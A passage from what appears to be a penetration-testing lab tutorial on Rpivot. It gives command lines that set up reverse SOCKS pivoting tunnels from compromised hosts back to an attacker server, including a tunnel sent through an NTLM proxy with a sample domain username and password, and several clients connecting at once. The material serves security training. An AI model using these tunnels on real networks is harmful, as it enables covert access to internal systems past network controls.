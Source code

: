 
## **5. Advanced Rpivot Features**

### **NTLM Authentication Support**

**Scenario:** Corporate environment with NTLM proxy

```bash
# Client with NTLM authentication
python2.7 client.py \
    --server-ip <target_webserver_ip> \
    --server-port 8080 \
    --ntlm-proxy-ip <proxy_server_ip> \
    --ntlm-proxy-port 8081 \
    --domain <windows_domain> \
    --username <domain_user> \
    --password <user_password>

# Example:
python2.7 client.py \
    --server-ip 10.10.14.18 \
    --server-port 9999 \
    --ntlm-proxy-ip 172.16.5.1 \
    --ntlm-proxy-port 8080 \
    --domain INLANEFREIGHT \
    --username jdoe \
    --password Password123!
```

### **Custom Port Configuration**

```bash
# Server with custom ports
python2.7 server.py --proxy-port 8050 --server-port 8999 --server-ip 0.0.0.0

# Client connecting to custom ports
python2.7 client.py --server-ip 10.10.14.18 --server-port 8999
```

### **Multiple Client Support**

```bash
# Server supports multiple clients
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

# Multiple clients can connect:
# Client 1 from host A
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

# Client 2 from host B  
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

---